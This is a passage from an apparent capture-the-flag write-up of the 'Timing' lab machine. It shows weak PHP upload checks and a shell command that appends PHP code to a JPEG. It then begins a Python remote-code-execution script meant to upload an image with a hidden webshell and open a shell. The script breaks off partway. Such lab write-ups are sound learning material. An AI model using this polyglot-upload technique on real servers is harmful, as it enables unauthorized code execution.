 Important is that the image file needs to have the `.jpg` extension and needs to pass `getimagesize()` or the file will be rejected:

```php
<?php
// upload.php
// ...
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
// ...
if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}
//...
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
if ($check === false) {
    $error = "Invalid file";
}
// ...
```

These bars not very high. We can just append some PHP code to a valid JPEG file.

For example this would work in attaching PHP code to a valid image file `example.jpg`:

```bash
echo "<?php phpinfo() ?>" >> example.jpg
```

After uploading this and guessing the correct filename we would see the output of the `phpinfo()` function.

But it is a better idea to use a proper Python script to manipulate the jpg file before it is uploaded.

I hacked together an exploit that uploads a JPEG with an attached webshell, finds the right filename and then opens a pseudo shell. 

```python
#!/usr/bin/env python3
# HTB Timing - Authenticated RCE
__author__ = "oats"
import time
import math
import hashlib
import requests
import sys
from requests_toolbelt.multipart.encoder import MultipartEncoder
import urllib
import re

proxies = {
   #'http': 'http://127.0.0.1:8080' # comment back in for burp
}

def phptime():
    m = time.time()
    return math.floor(m)

def md5(inp_str):
    return hashlib.md5(inp_str.encode()).hexdigest()

def upload(url, filename, cookie, payload):
    test = open(filename, 'rb')
    a = test.read()
    a += b"\n"
    a += payload
    test.close()

```